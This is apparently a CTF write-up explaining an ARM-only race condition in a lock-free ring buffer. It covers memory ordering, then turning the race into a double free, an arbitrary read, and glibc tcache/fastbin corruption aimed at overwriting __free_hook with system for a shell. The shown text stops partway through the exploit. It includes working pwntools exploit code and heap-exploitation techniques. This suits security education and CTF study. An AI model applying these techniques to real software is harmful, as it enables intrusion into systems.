










# This bug doesn’t exist on x86: Exploiting an ARM-only race condition

*How to exploit a double free and get a shell. "Use-After-Free for dummies"*

In this article, I'll teach you about real-world, modern binary exploitation, and a little about processor microarchitecture as well :D

My CTF team, [perfect blue](https://ctftime.org/team/53802), just concluded hosting our annual CTF, [pbctf](https://ctf.perfect.blue). One challenge I contributed was centered around a race condition vulnerability that only existed on ARM. In this article I'll explain the bug, why it doesn't happen on x86 processors, and finally how it can be exploited to land a shell.

This article is quite long, so I've added bookmarks. It consists of three main sections:

1. [Walkthrough of the binary, and a peek into the mindset of a vulnerability researcher.](#0-introduction)
2. [Memory ordering, lock-free programming, and how this can lead to sneaky bugs.](#2-lock-free-programming)
3. [Exploiting an object lifetime heap corruption bug. How to get arbitrary read and write and finally, a shell.](#5-heap-exploitation)


# 0. Introduction

Let's get the show on the road! Might as well start with the challenge description from the CTF:


The pwnable, or the vulnerable binary, that players are tasked to exploit, is a simple command-line application accessible through netcat. When you connect, you're greeted with a prompt:

```
$ nc out-of-order.chal.perfect.blue 1337
hihgly scalable strlen() service
1. New job
2. Receive results
3. Manage results
3.1. View result
3.2. Delete result
4. Clear results history
5. Exit
>
```

The pwnable is essentially a fancy multi-threaded `strlen()` wrapper, designed around the consumer-producer pattern. The main functionality lets you 1) submit some strings, 2) wait for the program to process the strings, and 3) view and delete results. Our goal is to exploit the binary and read the flag from a file on disk (`flag.txt`).

To aid in exploitation, the source code for this challenge was provided with the binary and libc. This is pretty realistic: many major targets nowadays are open source. Examples include Chromium, Firefox, Linux, XNU, and even Windows offers symbols.

But what's the process of *actually finding and exploiting a vulnerability* like?

Well, if you want to find bugs, then it's time to get your hands dirty and start reading code. Nowadays with everything fuzzed to death, tools alone usually won't get you the good bugs that are worth big money. So let's dig in.

# 1. Source code audit

### 0. Internal data structures

When exploiting a new target it's absolutely crucial to understand all of the nitty-gritty details about the objects we can play with. In the pwnable, the two main data structures are a Request object and a "thread-safe" ring buffer.

#### Request object

```cpp
struct Request
{
    char *str;
    uint64_t result;

    Request(char *str, int result) : str(strdup(str)), result(result) {}
    ~Request() { free(str); }
};
```

The Request object is little more than a RAII `char*` wrapper. It's 16 bytes big.

- **Observation 1:** Interestingly, the copy constructor isn't deleted. If we can double free a Request object, its backing `char *str` will also get double freed. Depending on the situation, this can either be useful or a hindrance.

- **Observation 2:** Since we control the length of the input string, we therefore control the chunk size of the `strdup` allocation. We can play with whatever size bins we want.

**⟹ Key observation:** We can play with the 16-byte bin that is used to service `Request` objects from the heap. If we could somehow get a dangling pointer to a Request object, we could corrupt that Request and then carefully use the corrupted object's overwritten `char *str` pointer to perform arbitrary pointer operations.

*Well okay*, if our goal is to corrupt one of these Request objects, we should probably look for some "complicated-looking" part of the program for bugs to do that with.

#### RingBuffer object

```cpp
// Lock-free, thread-safe FIFO.
template<typename T, unsigned int buffer_size=256>
class RingBuffer
{
    T backing_buf[buffer_size];
    volatile unsigned int head = 0;
    volatile unsigned int tail = 0;

public:
    RingBuffer();

    // Reader-side functions
    bool empty(const unsigned int& tail_local) const;
    T read(unsigned int& tail_local);

    // Writer-side functions
    bool full(const unsigned int& head_local) const;
    void write(T data, unsigned int& head_local);
};

// Work queue
RingBuffer<Request*> wq;
// Results queue
RingBuffer<std::unique_ptr<Request>, 65536*2> rq;
```

This is a supposedly "lock-free, thread-safe" generic queue with a fixed-size backing circular array. Writing advances the head pointer; reading advances the tail pointer; it blocks when writing while full or reading while empty. It's what you would expect.

Let's check out the consumer thread side of things.

```cpp
// Reader-side functions
bool empty(const unsigned int& tail_local) const
{
    return head == tail_local;
}

T read(unsigned int& tail_local)
{
    while (empty(tail_local)); // Buffer is empty, block.

    T data = std::move(backing_buf[tail_local]);
    tail_local = (tail_local + 1) % buffer_size;
    tail = tail_local;
    return std::move(data);
}
```

All of the index arithmetic checks out, and the queue takes precise care of object lifetimes, even going as far as to explicitly specify `std::move`. What about the producer side?

```cpp
// Writer-side functions
bool full(const unsigned int& head_local) const
{
    return (head_local + 1) % buffer_size == tail;
}

void write(T data, unsigned int& head_local)
{
    while (full(head_local)); // Buffer is full, block.

    backing_buf[head_local] = std::move(data);
    head_local = (head_local + 1) % buffer_size;
    head = head_local;
}
```

Okay, it wastes a slot to distinguish between full and empty; however this isn't a safety issue. And it looks just as careful as the other side. It looks like this queue was coded very carefully. There are no clear buffer overflows. On x86 in fact, it's completely correct[^7]---if you compile the given source code on a desktop, the program is essentially bug-free. So that's discouraging. But what can we leverage still?

[^7]: OK yes, the code still needs to have a compiler barrier to prevent compiler reordering. But both clang and gcc did not reorder on O3, probably because `head` and `tail` are both marked `volatile` (ALTHOUGH `volatile` IN GENERAL DOES NOT GUARANTEE LACK OF REORDERING). Also, it will not work if there are multiple producers or consumers. The point is, if you compile the code on x86 with -O3 on clang 10 or gcc 9.3.0, the resulting binary is not vulnerable.

**Observation 1:** For `rq`, Even though a `Request*` object is std::moved when it's read back out, it is *not* erased from the backing array. The pointers are still chilling in there (unlike `std::unique_ptr`, which zeroes its contents when moved). They will only be overwritten once the ring buffer wraps around again and those slots are filled with new elements.

**Observation 2:** This lock-free, `volatile` business is obviously fishy. The programmer clearly expects things to happen in a very specific, precise order. If we could somehow violate those assumptions, it may lead to a race condition. And of course, the challenge name ("Out of Order") is a hint here. Since the most complex part of the program is often the most suspect, we'd better pay special attention to this code.

**⟹ Key observation:** If we could somehow get the ring buffer to return the stale contents of an uninitialized slot from the backing array, this could lead to a dangling pointer which points to an already-referenced Request object.



### 1. "New job"

```cpp
case 1: {
    puts("How many requests in this job?");
    unsigned int count = get_number();
    if (count > 100000) { puts("Too many!"); exit(1); }
    for (unsigned int i = 0; i < count; i++) {
        if (!fgets_unlocked(buf, sizeof(buf), stdin))
            exit(0);

        wq.write(new Request{buf, 0}, wq_head);
    }
    break;
}
```

*Okay*, This lets us spray a lot of new Request objects into the work queue, and quite quickly too. Who is processing these requests?

```cpp
void* thread_consumer(void* arg)
{
    uint64_t i = 0;
    unsigned int wq_tail = 0;
    unsigned int rq_head = 0;

    while (1) {
        auto data = wq.read(wq_tail);
        data->result = strlen(data->str);
        rq.write(std::unique_ptr<Request>(data), rq_head);
    }
}
```

*Ahh*, so a second thread reads from the other end of the FIFO, performs the work (`strlen`), and queues the results to the main thread on a results queue. The two threads communicate with a pair of half-duplex queues.



Where do the results go?

#### 2. "Receive results"

```cpp
case 2: {
    unsigned int n = 0;
    while (!rq.empty(rq_tail)) {
        results.push_back(std::unique_ptr<Request>(rq.read(rq_tail))), n++;
    }
    printf("Received %u results\n", n);
    break;
}
```

Nothing too crazy here, we receive back `std::unique_ptr<Result>` pointers from the results queue `rq`, and jam them into a vector. This vector thereby extends the object lifetime of the `Result` indefinitely until we free them.

#### 3. "Manage results"

```cpp
printf("%lu results:\n", results.size());
if (!results.size())
    return;
for (int i = 0; i < results.size(); i++) {
    auto& result = results[i];
    printf("#%d: %s", i, result.get() ? result->str : "<deleted>");
}
```

It prints out **all** of the results for us, and lets us choose one to play with.

#### 3.1. "View result"

```cpp
    case 1:
    printf("Input: %s\n", result->str);
    printf("Result: %ld\n", result->result);
    return;
```

This lets us read the `char *str` pointer. If we could control the value of `str`, we could use this to arbitrary read.

#### 3.2. "Delete result"

```cpp
    case 2:
    puts("Result deleted");
    result.reset();
    return;
```

It calls `std::unique_ptr<Request>::reset`, which destructs the `Request` and frees it. So we can totally control the object lifetime of Request objects.

#### 4. "Clear results history"

```cpp
case 4:
puts("All saved results cleared");
results.clear();
break;
```

I guess this lets us reset the program if things don't go our way. If we have some kind of UAF (Use-After-Free) or heap corruption situation going on, this will probably cause a segmentation fault or abort in `free()`.

---

After a brief audit of the source code, we can see that the program's functionality is little more than a thin facade in front of glibc heap operations. This "heap note" interface might seem bare-bones, but it closely models how modern heap exploitation works. Typically, attackers will collect primitives for spraying and freeing memory and use them in concert with a bug like UAF or Double Free to construct a working exploit. Examples of popular primitives in "real life" targets include Javascript ArrayBuffers in browser exploitation, or IOSurface objects in iOS Kernel exploitation.

Still, though, it seems like we've hit a brick wall. We have no vulnerability in sight, and the code quality looks excellent. Where do we go from here? Before we can progress any further, we need to take a brief detour...

# 2. Lock-free programming

And now for something completely different! Welcome to the land of Systems Architecture.

In cool leg, we teach CS undergrads to protect their multi-threaded data structures with a lock. This is probably a Test-and-Set (TAS) lock, and if they went to a good university, they have a homework assignment where they are told to use `lock cmpxchg` to implement a mutex. Once they're all grown up however, (i.e., grad school) we teach them the truth: Locks are slow. Specifically, lock contention is slow.

*(Disclaimer: the following explanation is an oversimplification. Please forgive me if I made any errors)*

Lock contention is slow because of cache coherence. To synchronize two cores, the processors need some shared resource. So you put the lock variable somewhere in main memory. Of course, any reasonable expectation of performance in 2021 is not possible without caching. Typically, every core has its own local cache (even if there is possibly a shared last-level cache, depending on the architecture). **So every core has its own view of memory.**

<p align="center"><br /><i>Example cache architecture</i></p>

It would be bad if different cores had conflicting values for the same cache line at the same time. To alleviate this, hardware designers usually guarantee cache coherence to programmers. Cache coherence guarantees that (1) updates to a given cache line in one core are also seen by other cores in a timely fashion, and that (2) read/write transactions to a given cache line are serialized. This lets us, in theory, implement a lock just using a single cache line with some atomic instructions.

This sounds great and all, but how does cache coherence *actually happen in real life*? How is cache coherence implemented in hardware? Well, cores are hooked up in an on-chip network so they can all talk to each other. This interconnect can be implemented in a variety of topologies ranging from a shared bus to a crossbar switch or a ring. Over this interconnect, the cores pass messages to each other in protocols such as MOESI. At the end of the day however, the cores are going share some physical components. Whatever this contended resource is, they are going to have to take turns which slows things down.

So lock contention slows things down. For some high performance applications, programmers opt for lock-free programming techniques. How can we write a multi-threaded code without using locks?

Let's consider the simplest possible example. Thread 1 wants to pass some information (let's say, a single `int` value) to Thread 2. How does Thread 2 know when the value is ready? It might look like this:

| Thread 1    | Thread 2    |
| ----------- | ----------- |
| value = ??  | value = ??  |
|   ---       |     ---     |
|             | while (ready != 1); |
| value = 123 | ...         |
| ready = 1   | ...         |
|             | print(value)|

Wow amazing, inter-thread communication with no locks. This assumes, of course, that nothing happens out of order, and updates are globally visible immediately, a topic we will return to later.

Let's return to our original consumer-producer FIFO example. The producer puts new work items at the head of the FIFO, and the consumer eats them out of the tail. Notice how the two threads are using different parts of the FIFO---they aren't using the entire FIFO at once. Therefore, we don't need a lock to enforce an atomic operation over the whole FIFO. The operations of adding and removing from the FIFO can be lock-free, provided we do it carefully.


Not all operations can be implemented in a lock-free manner. For example, if we wanted to count the number of occurrences of an element in a FIFO, or calculate a sum over all elements, this probably needs a lock over the entire FIFO.

## Acquire and Release semantics

In our earlier example with the `value` and `ready` variables, we assumed that Thread 2 would not see `ready == 1` until after the write `value = 123` is visible. Otherwise, it might jump the gun and receive an uninitialized value for `value`.

In this example, `ready = 1` has write-release semantics and the `while (ready != 1);` has read-acquire semantics. Basically these semantics enforce the order we expect: the write-release `ready = 1` shouldn't be reordered before the other write, `value = 123`, and the read-acquire `ready != 1` shouldn't be reordered before the other read, `print(value)`.

In general, acquire semantics means the operation needs to happen **before** other operations; release semantics means the operation needs to happen **after** other operations. An easy way to remember it is to think of a traditional mutex: you acquire it before you do stuff, and release it once you're done.

But why do we need acquire and release semantics anyways? I thought you said we have cache coherency to protect us from all that bad stuff.

# 3. Out-of-Order execution

We teach undergrads that the CPU just executes a linear instruction stream. This is not the case. Nowadays, high-performance processors, like those found in desktops, servers, and phones, are massively out-of-order to exploit instruction-level parallelism as much as possible. They perform all sorts of tricks to improve performance. These tricks include re-arranging the instruction stream, executing multple instructions (micro-ops really) simultaneously in parallel, speculative execution, register renaming, memory reordering, and store buffering. Although hardware designers try to hide the effects of these tricks from the programmer, they often crop up when writing code that depends on low-level details, such as lock-free code.

I'll briefly highlight the ones that are most relevant to our pwnable:

### Re-arranging the instruction stream

Suppose you have a sequence of instructions. The CPU doesn't care so much as to the order you feed it instructions, but moreso the data dependency chains among those instructions.

```nasm
; (Comments added for those a bit rusty on their x86 assembly)
1. add rax, rax  ; rax += rax
2. add rax, rax  ; rax += rax
3. add rax, rax  ; rax += rax
4. add rax, rax  ; rax += rax
5. add rbx, rax  ; rbx += rax
6. add rcx, rdx  ; rcx += rdx
```

Here the processor really does not care that you put the `add rbx, rax` before the `add rcx, rdx`. The add with `rcx` and `rdx` doesn't depend on the value of `rax`, which has a long dependency chain of instructions needed to compute the final value. It will happily complete instruction 6 before instruction 5.

### Store buffering

Suppose you have the following code. The CPU doesn't wait for the store to memory to actually finish, it just keeps track of this write in an internal store buffer until the write actually completes with the cache.

```nasm
1. mov [rbx], rax  ; *rbx = rax
2. add rax, rax    ; rax += rax
3. add rax, rax    ; rax += rax
4. add rax, rax    ; rax += rax
5. add rcx, [rbx]  ; rcx += *rbx
```

It can happily chug through this sequence of instructions without any stalls (assuming sufficient hardware resources). When it gets to instruction 5, even if the store hasn't yet completed, it will recall the written value to `[rbx]` from the load-store buffer.

Store buffering also means you can't have weird races on the same memory location happen within the same processor due to out-of-order execution. The load-store buffer should serialize all of the transactions to a single cache line within a single processor. In other words, the store buffer is also maintaining the illusion of program ordering within a single cache line within a single core.

### Memory reordering

OK, this is what we have been hinting at so far this whole time. Depending on the architecture, the processor might perform memory operations out-of-order. On weaker memory models, such as ARM, pretty much any operation (such as a load or a store) can get reordered with any other, excluding data dependencies. Meanwhile, x86 has an very rigid memory model, and pretty much the ONLY reordering that can happen is reordering **older stores** with **newer loads** (StoreLoad reordering).

For example, consider the example from before. Assume all variables live on different cache lines.

```cpp
volatile int value;
volatile int ready;

// Thread 1
value = 123; // (1)
ready = 1; // (2)

// Thread 2
while (!ready); // (3)
print(value); // (4)
```

On ARM, the writes (1) and (2) can get reordered, so the write to `ready` is visible before the write to `value`. On Thread 2, this can cause the read to `value` (4) to happen before the written value `123` is visible. In other words, due to the re-ordering, Thread 2 will see an uninitialized value.

On x86, this kind of re-ordering is impossible. In fact, on x86 the memory model is so strong that stores are totally ordered---there is a single global One True Ordering for all stores. So this bug would not happen, even without any memory barriers.

Now we are finally ready to tackle the nature of the original pwnable.

# 4. Race condition

We said earlier that the correctness of the pwnable's ring buffer is contingent on all operations happening in the correct order. Let's revisit the reader and writer-side code and think about how they interact.

```cpp
T read(unsigned int& tail_local)
{
    while (head == tail_local); // Buffer is empty, block.

    T data = std::move(backing_buf[tail_local]);
    tail_local = (tail_local + 1) % buffer_size;
    tail = tail_local;
    return std::move(data);
}

void write(T data, unsigned int& head_local)
{
    while ((head_local + 1) % buffer_size == tail); // Buffer is full, block.

    backing_buf[head_local] = std::move(data); // (1)
    head_local = (head_local + 1) % buffer_size;
    head = head_local; // (2)
}
```

The critical question here is: "What is stopping the reader side from reading stale (uninitialized) elements?" In theory, `read` should block if the buffer is empty. It does this by checking the global `head` against the value `tail_local`[^1]. Meanwhile, the writer thread only updates `head` *after* it writes the data to the backing buffer. As long as these two writes are not re-ordered, everything should be fine.

[^1]: `tail_local` is stored in a register, so there is no possibility of races on it. Same with `head_local`.

Going back to what we learned about lock-free programming, here we can see that the write `head = head_local` (2) needs to have release semantics. But it doesn't; `head` is simply a `volatile int`, and there's no barriers in the code to enforce this. On x86, we can get away with this because all stores are globally ordered, so the write (1) can never occur after (2). However, on ARM, there's no guarantee that this order will be maintained without an appropriate memory barrier.

Checking in IDA Pro, we see that indeed there are no barriers:

```nasm
; Disassembly listing
.text:0000000000401294 ADRP            X9, #wq@PAGE
.text:0000000000401298 ADD             X9, X9, #wq@PAGEOFF
.text:000000000040129C ADD             W20, W20, #1
.text:00000000004012A0 STR             X24, [X9,W27,UXTW#3]
.text:00000000004012A4 CMP             W20, W25
.text:00000000004012A8 MOV             W27, W8
.text:00000000004012AC STR             W8, [X9,#(head - 0x412800)]
```

So in theory, if the consumer thread is constantly consuming from the ring buffer in a tight loop while the producer thread adds a new element, this sequence of events could be possible:

1\.  2. 

3\.  4.  

5\.  6. 

7\. 

In this sequence of events, the ring buffer returned a pointer to **the same object twice**. Remember that diagram from earlier? Since now the user is able to control this object using two different references, this guarantees that a dangling pointer will exist at some point in the future. The attacker can then use the dangling pointer to do UAF.


To trigger the race in practice, we'll send 20,000 new Requests all in quick succession, and hope that the consumer thread will read back one of the Requests twice. To tell if this has happened, we'll use an incrementing unique value for each Request's body. That way, if we see the same string twice in the results, then we'll have definitive proof that some undefined behavior happened. To code our exploit, we'll use pwntools as usual:

```python
from pwn import *

p = remote("out-of-order.chal.perfect.blue", 1337)
RACE_SIZE = 20000

print('Generating payload')
race_payload = []
for i in range(RACE_SIZE):
    race_payload.append(b'%d\n' % i)
race_payload = b''.join(race_payload)

def spray():
    log.info('Sending race payload')
    p.send(b'1\n%d\n' % RACE_SIZE)
    p.send(race_payload)
    p.sendline(b'2')

# ... boilerplate code ...

while True:
    spray()

    # check for dangling pointer
    results = examine_results()
    for i, s in enumerate(results):
        if s != (b'%d'%i):
            log.success('Triggered bug! Result %d actually had value "%s"' % (i, s))
            uaf_one = i
            break
    else:
        log.failure('No race, try again...')
        p.sendline(b'4')
        p.recvuntil(b'All saved results cleared\n')
        continue
    break

uaf_str = results[uaf_one]
uaf_two = int(uaf_str)
log.info('Aliased refs: results %d and %d' % (uaf_one, uaf_two))

p.interactive()
```

Getting the race to actually happen depends on the payload size, the processor, the current CPU load, the temperature of the device, the phase of the moon, etc. Such is life as an exploit developer in 2021.

<p align="center"><a href="https://twitter.com/gf_256/status/1452776760236445710"></a></p>

Here's our script in action:

```
$ python3 solve.py
[+] Opening connection to out-of-order.chal.perfect.blue on port 1337: Done
Generating payload
[*] './a.out'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Sending race payload
[-] No race, try again...
[*] Sending race payload
[+] Triggered bug! Result 1768 actually had value "b'1512'"
[*] Aliased refs: results 1768 and 1512
[*] Switching to interactive mode
>
```

The output means that two results, #1768, and #1512, both refer to the exact same object! After the race, it drops us to an interactive mode we can manually play with. If we inspect the results:

```
> 3
20000 results:
#0: 0
#1: 1
#2: 2
#3: 3
...
#1510: 1510
#1511: 1511
#1512: 1512   <-- this one is normal
#1513: 1513
#1514: 1514
...
#1766: 1766
#1767: 1767
#1768: 1512   <-- this one is buggy and points to the same object as #1512
#1769: 1769
#1770: 1770
```

To prove that they're definitely aliasing the same object, let's delete one of them and see what happens to the other one.

```
> 3
20000 results:
...
Choose a result: #1768
Result #1768 selected
> 2
Result deleted
```

```
> 3
20000 results:
#0: 0
#1: 1
#2: 2
...
#1510: 1510
#1511: 1511
#1512: \x80\x80t  <-- The unique_ptr now points to a freed chunk!!
#1513: 1513
#1514: 1514
...
#1766: 1766
#1767: 1767
#1768: <deleted>  <-- although we deleted #1768, result #1512 was also affected!
#1769: 1769
#1770: 1770
```

This conclusively proves that we can create dangling pointers with our aliased refs. Naturally, we can use this to double free, UAF, etc. Now what?

# 5. Heap exploitation

Binary exploitation is like putting together a puzzle. Like a chess player, an exploit developer has many little "tactics" for each target. They piece together these individual techniques to form a larger strategy. 

<p align="center"><br /></p>

Small manipulations, like filling or draining a thread-local allocator cache, or rearranging a free list, are examples of such so-called "tactics". You carefully combine many of these little operations to inch forwards in your overall exploit strategy. The idea is that they give us an inch; we take a mile. One tiny bug leads to an over-referenced object; we need to amplify that to get stronger primitives until we get what we need.

Let's get back to thinking concretely. In our buggy pwnable, we have the following situation after the race succeeds. What can we do with it?

 - Double free'd chunks that got reallocated. As a result, two results refer to the same `Request` object.
 - By viewing results, we can **read back** the contents of an allocated chunk.
 - By making a new job, we can **allocate arbitrary size chunks** and **write** (nearly) arbitrary contents there.
 - By deleting results, control over objects' lifetime (**free them whenever we want**).
 - No [PIE](https://guyinatuxedo.github.io/5.1-mitigation_aslr_pie/index.html): pointers in the main binary are constant between multiple executions. I.e., **no ASLR on the pwnable itself**, but libc, heap, and stack addresses are randomized.

Although it seems like we have a lot of control, it's no walk in the park. We need more powerful primitives to do anything meaningful. How do we get there?

## Brainstorming a suitable exploit strategy

Let's work backwards.

First of all, assuming we had an arbitrary write (aka *write-what-where*), we still need to know *what* to write and *where* to write. For us, the win condition is reading the flag from disk. For challenges like this, the easiest way is to just launch a shell; i.e., `system("/bin/sh")`, then typing in `cat flag`. This is easy since it involves only 1 function call: overwriting any suitable[^2] function pointer is sufficient.

[^2]: For us, "suitable" means "the first argument is a string pointer and we can control the contents".

If we want to go down this route, we need to find an address for `system` we can call. Luckily, the main binary wasn't compiled with PIE, so it's always mapped at a known address. This makes things a lot easier for us. Still, since `system` isn't imported by the main binary, we need a libc leak so we can find its address in libc. Fortunately, the dynamic linker will place function pointers for resolved imports in the main binary's `.got.plt` section. Those pointers are at a static address, so if we had an arbitrary read, we could get a libc leak (and `system` address) that way.



As for where to write, since the binary is only partial RELRO, we can overwrite `.got.plt` pointers. Alternatively, we can overwrite the libc global `free_hook`, which is called whenever any chunk is freed[^3].

[^3]: You might wonder why such a functionality even exists in glibc. It's for tracing, profiling, instrumentation, etc. purposes. As an attacker, such  functionalities are often interesting potential targets to keep in mind.

Attacking `free_hook` would be ideal for us since we can control the contents of the freed chunk: `strdup` gets called on our Request body, placing our contents into a new chunk, and the chunk gets freed when the Request is destroyed. If we can overwrite `free_hook` with a pointer to `system`, then make a Request containing `/bin/sh` and destroy it, it should land us a shell.

Now we have a hazy outline of what our exploit will probably look like. In summary:

1. Get two buggy references that point to the same object (✔️)
2. ??? Get arbitrary read using buggy objects
3. Leak libc from .got.plt
4. Leak whatever other addresses we also happen to need
5. ??? Get arbitrary write
6. Overwrite `free_hook`
7. Call `free("/bin/sh")` by creating and deleting a Request with body `/bin/sh`
8. Done?

## Fleshing out the exploit strategy

OK, so now we need to actually figure out how to get from some buggy objects to actually useful primitives. First, let's work on arbitrary read since that one is usually easier.

We can read back the contents of a Request object. Specifically its `char *str` pointer. If we could corrupt this pointer with controlled contents, we could read whatever memory location we want. Thus, the question is how do we abuse our pair of buggy references to corrupt the underlying object in a useful way.



Modern heap exploitation is all about carefully juggling the object lifetimes of objects in various corrupted states. We can think of a reference to an object as a "capability" or "key" to do some operations on that object. Let's think about what we can do with these "keys".

With a "key", we can read the object as many times we want. But we can only free it once: the "key" gets destroyed in the process. Allocating new objects gives us new "keys".

What happens when we have a key, but the underlying object gets corrupted? Say, for example, through some undefined behavior or bug or whatever.


In this case, although the object is corrupted, our key still allows us to read back the pointed data at a different location!

In general, what we need is to basically come up with a sequence of operations with these "keys" that will result in what we want.

## Arbitrary read

As we know, the Request object is little more than a RAII `char*` wrapper. Having two aliased references to the same such object is a classic double free situation[^6]. Let me show you how we can upgrade this to arbitrary read.

[^6]: Ok, this is not technically a double free bug, but this situation is extremely common and it is pretty much iSoMoRpHiC to a double free. If you have a double free, you can just allocate the object twice to get this situation and vice versa.

We need to corrupt the Request object using one of the keys, while holding on to the other one, similar to our earlier example.

First, we allocate a new Request, with a body of size let's say 50. Why we do this will be clear in a minute.



First, we free one of the keys. This frees (1) the original pointed string, and then (2) the Request object. Pay close attention to the free list.



Now the other key is pointing to a freed chunk at the top of the freelist. If we allocated a new Request object right now, we'd get back the same chunk that we just freed. This is because the allocator services new requests from the freelist in LIFO order[^4]. Although that would change what the other key points to, it doesn't lead to memory corruption. We need to **re-use that chunk as arbitrary data, rather than an object**.

[^4]: To be more precise, the Request and underlying string are both 0x10 byte chunks. In glibc 2.31, these get freed to the tcache for 0x10-size chunks. If the tcache is full, they go to the 0x10-size fastbin. Tcaches and fastbins are both singly-linked lists that service new allocations in LIFO order.

That's where key #20001 comes in. The one we made in the beginning. Now, we free that key, putting a "dummy" chunk on the top of the freelist. Since its data is some large size, the data will get freed to some other size bin (for example 0x40). For ease of understanding, I've also color coded all the pointers.


Now we allocate a new Request. When allocating a chunk to hold that Request's data, the allocator will return the same memory that the key #1768 points to. **In other words, we can control what are the contents of its underlying object.** Therefore, we will supply a **fake Request object**, with arbitrary pointer.



Boom. Arbitrary read. And furthermore, if we want to read a new location, we can simply free key #20002 and reallocate it with a new pointer. That will *re*-smash the pointer of key #1768 which we can read back once again.

Here's the code for all of that:

```python
af_str = results[uaf_one]
uaf_two = int(uaf_str) # if this isnt aliased to another Request object, we're fucked anyways
log.info('Overlapped chunks: results %d and %d' % (uaf_one, uaf_two))

tmp2 = alloc(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
log.info('Free uaf 1')
free(uaf_one)
log.info('Free shield')
free(tmp2)
tmp3 = alloc(p64(binary.got['free']))
leak = u64(read_back(uaf_two).ljust(8, b'\x00'))
log.info('Leak: ' + hex(leak))
if not leak or leak & 0xf or (leak >> 32 != 0xffff):
    raise ValueError("bad leak");
libc_base = leak - libc.symbols['free']
if libc_base & 0xfff:
    raise ValueError('bad libc_base')
log.info('libc_base = ' +  hex(libc_base))
libc.address = libc_base
system = libc.symbols['system']
free_hook = libc.symbols['__free_hook']
log.info('system() = ' + hex(system))
log.info('free_hook = ' + hex(free_hook))
```

## Arbitrary write

Okay, now we have arbitrary read as well as whatever leaks we want. How do we get arbitrary *write*? It seems impossible given what we have alone. We don't have a way to write contents back into the Request once we've allocated it.

To solve this problem, we are going to have to abuse the allocator itself. So far, we've been playing with freelists. But how is this freelist actually implemented?

In glibc, when a chunk gets freed, the memory doesn't just chill out and sit idle. It cleverly re-uses the freed memory to actually store the free list's data. After all, the programmer is supposed to be not using that freed memory, right? 😉 More specifically, for chunks of size 0x10, this bin's free list is a singly-linked list.

Consider the following sequence of operations.

1. We free a chunk, and the allocator puts it at the top of the free list. Inside the now-free piece of memory, it puts a pointer to the next chunk in the free list. `freelist -> chunk1 -> ...`
2. Using some bug, we corrupt that "next chunk" pointer stored in the freed chunk, while keeping that chunk in the freelist. `freelist -> chunk1 -> controlled`
3. We allocate that corrupted chunk. `freelist -> controlled`
4. We allocate another chunk.  `freelist -> (empty)`

As you can see, performing an attack like this would get malloc to return an *arbitrary memory location*. If that allocation was for our Request data, we could write whatever we want, whereever we want.

This isn't the only way to get arbitrary write out of glibc's malloc, but this is the one I will present. There are many other well-known attacks. I encourage you to explore them if you are curious.

In summary:

1. Find two results aliased to the same `Request` object (✔️)
2. Free one of the aliased `Request` refs and Use-After-Free (UAF) with the other ref (✔️)
3. Reallocate the chunk and corrupt the UAF ref's `char *str` pointer to achieve arbitrary read (✔️)
4. Use arbitrary read to leak various addresses (libc and heap) (✔️)
5. Somehow get `malloc` to return an arbitrary pointer; make it return a pointer to libc's global `free_hook`
6. Use that allocation to overwrite the contents of `free_hook`
7. Call `free("/bin/sh")` to get shell!

## Tripping over mitigations :(

Here is the most obvious way to approach the "corrupt a freed chunk" problem:

1. Free key #1768. Now that chunk holds a "next chunk" freelist pointer.
2. Free the other key (#20002 in the diagrams), and reallocate it with some fake freed chunk that holds a fake freelist pointer. This smashes the "next chunk" freelist pointer.
3. Allocate chunks until we get the one that points to our arbitrary location.

Unfortunately, this does not work as you would expect.

```
free(): double free detected in tcache 2

Aborted (core dumped)
```

:-(

If you read malloc.c, you'll quickly discover why exactly it doesn't work. In recent glibc editions, as an optimization, bins with small sizes like 0x10 have a front-end thread-local cache. This is to reduce contention on a global arena lock. This is the *tcache*. In glibc 2.31, there is a check that prevents you from freeing any chunk that is already in the tcache. That's the check responsible for the abort.

But as with many mitigations, there is always a meme to circumvent it. The meme here is that the tcache has a limited size. It actually only holds up to 7 chunks, and past that, chunks get freed directly to the underlying fastbin. Allocating chunks pulls from the tcache, unless it's empty. At that point, allocations are serviced from fastbins.

So if we just **fill up the tcache** with random junk, we can go play in the fastbin instead. But what good is the fastbin over tcache? First of all, we can double free into fastbins[^5]. We can also free a chunk into a fastbin, then free it again into the tcache. The tcache won't see the other copy in fastbin. Second of all, fastbins are also singly-linked list, so it's easy to mess with.

[^5]: We can't free the same chunk immediately consecutively; this will trigger the fasttop double free abort. But we can also just meme around that check by freeing chunk A, then some random chunk B, then A again. So that check usually means nothing to us.

In that case, our play will look like this (everything here is happening in the 0x10 bytes bin):

1. Fill up the tcache by freeing 7 random junk Requests (with large data) to it
2. Free key #1768 directly to fastbin.
3. Drain the tcache by allocating 7 Requests (with large data). Now the tcache is empty.
4. Free key #20002 to tcache. This won't abort this time, since the other copy of the chunk is in fastbin, not tcache.
5. Reallocate it with a fake fastbin "next chunk" pointer, smashing the contents of the freed chunk from step (2).
6. Do the rest of the exploit.

Apart from this, there's a few other minor hiccups due to various sanity checks in `malloc` and `free`, but those can all be bypassed relatively easily as well. And now, we have our arbitrary write!

Here's the code:

```python
# Leak some random heap chunk
free(tmp3)
tmp3 = alloc(p64(binary.symbols['wq'] + 8))
heap_leak = u64(read_back(uaf_two).ljust(8, b'\x00'))
log.info('Heap chunk leak: ' + hex(heap_leak))

# Write the heap chunk into uaf_two so we can free it without having glibc freaking the fuck out
free(tmp3)
tmp3 = alloc(p64(heap_leak))

# Fill tcache
log.info('Fill tcache... ')
tmp10 = alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
tmp11 = alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
tmp12 = alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
tmp13 = alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
tmp14 = alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
tmp15 = alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
tmp16 = alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
tmp17 = alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
free(tmp10)
free(tmp11)
free(tmp12)
free(tmp13)
free(tmp14)
free(tmp15)
free(tmp16)
print()

log.info('Lets go!')
free(uaf_two) # Goes to fastbin
log.info('Freed UAF2')

# Drain tcache so that we can re-alloc tmp3 and smash the fastbin fd of freed UAF2
